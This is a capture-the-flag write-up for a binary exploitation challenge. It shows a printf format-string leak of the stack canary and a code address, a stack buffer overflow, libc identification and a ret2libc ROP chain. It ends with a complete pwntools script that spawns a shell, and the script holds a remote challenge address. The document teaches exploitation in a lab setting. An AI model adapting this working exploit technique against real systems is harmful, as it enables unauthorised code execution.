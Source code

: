 # Reverse

Firstly we run `checksec` on the binary.

![](buy-coofeeImages/Pasted image 20240929131928.png)

We see that we have all the important protections enabled. Quite scarry at first sight right?

We load up the binary in Ghidra and the execution flow reaches this function, `coffee()`

![[buy-coofeeImages/Pasted image 20240929132209.png]]

We see that indeed we have a canary and a buffer of 24 bytes on the stack. But on line `15` we see the vulnerability an `fread()` call that reads up to 80 characters in the buffer (including null bytes).

# Pwning

## Bypass Canary and PIE

How do we bypass the stack canary though to redirect the execution flow? Only if we could leak things from the stack. 

Luckily we can, on line 12 there is a `printf()` Format String Vulnerability, this allows us to leak contents from the stack including the canary.

By using `%n$lX` we can print the n-th argument passed to `printf()`. Let's look at the calling convention on `x86-64`.
![[buy-coofeeImages/Pasted image 20240929133412.png]]

We see that on Linux we pass the parameters in the following order:
- RDI
- RSI
- RDX
- RCX
- R8
- R9
- Stack

So **RDI** will be at offset 0, **RSI** at offset 1 and so on, this means that the first argument from the stack is at offset 6. Let's take a look at the stack when we enter the `printf()` function.

![[buy-coofeeImages/Pasted image 20240929133657.png]]

We see that at `rsp+0x08` we have the 6th argument passed to `printf()`, our string. At `rsp+32` which is the `9th` argument passed to `printf()` we have the stack canary. 
Moreover at `rbp+0x08` or at `rsp+48` or the `11th` argument on the stack we have the return address of the `printf()` call, which returns in main, in `main+78` to be more specific.

So by supplying `%9$lX %11$lX` as input to the `printf()` function we will get these two values separated by a space.

```
[*] Output  FA221527F3AC6B00 56555153C332
```

Now we can safely overwrite the return address and redirect the execution flow. We can perform a `ret2libc` attack. The simplest way to do so is to call `system()` with the argument of `/bin/sh`. 

Following the syscall convention of x86-64 we need to pass the address of `/bin/sh`(the **libc** contains the string `/bin/sh`) by the **RDI** register. 

## Ret2libc

We use `ROPgadget` to find the `pop rdi ; ret` and we find one.
![[buy-coofeeImages/Pasted image 20240929134909.png]]
We cannot just jump to the gadget's location because remember the binary is compiled as **PIE** enabled. So we need to calculate where to jump based on the leaked `main+78` address and the offset between `main+78` and the gadget in the code.

```python
#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
```

The script also outputs the address of the `printf()` function from libc and we also received the library used by the challenge (2.31). Using these two we can pinpoint the version used by the binary exactly using **libc-database**. In this case it is `libc6_2.31-0ubuntu9.9_amd64`.

![[buy-coofeeImages/Pasted image 20240929140201.png]]

From here we calculate the offsets to the string `/bin/sh` and `system()`.
```python
system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D
```

## Exploit
We chain everything together and let's do not forget of the extra `ret` needed for the `MOVAPS` instruction.

```python
from pwn import *
import logging

context.log_level='DEBUG'
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

gdb_script = f"""
"""

io = gdb.debug('./buy_me_coffee_patched', gdbscript = gdb_script)
#io = remote("34.159.156.124", 32123)

output = io.recvuntil('$')

io.sendline('%9$lX %11$lX') # 9 canary; 11 main+78

output = io.clean(timeout=1)

log.info("Output " + output.decode())
log.success("Canary: " + output.decode().split(' ')[1])
log.success("Main78:" + output.decode().split('W')[0].split(' ')[2])
log.success("Code base: " + str(hex(int(output.decode().split('W')[0].split(' ')[2], 16) - 0x1332)))

canary = int(output.decode().split(' ')[1], 16)
main78 = int(output.decode().split('W')[0].split(' ')[2], 16)
  
printfAddr = int(output.decode().split(' ')[5].split('\n')[0], 16)
log.success("Printf address: "+ output.decode().split(' ')[5].split('\n')[0])

system_addr = printfAddr - 0xFA00
bin_sh_addr = printfAddr + 0x15292D

#main+78        0x00101332
#pop rdi; ret   0x001013b3
rop_gadget_addr = main78 + 0x81
just_a_ret = main78 - 0x10c

payload = b'A' * 24
payload += p64(canary)
payload += b'B' * 8     #skip saved RBP

payload += p64(just_a_ret)
payload += p64(rop_gadget_addr)
payload += p64(bin_sh_addr)
payload += p64(system_addr)

io.sendline(payload)
io.interactive()
```

## Flag

Last we run it on remote and get the flag! :)
![[buy-coofeeImages/Pasted image 20240929142109.png]]
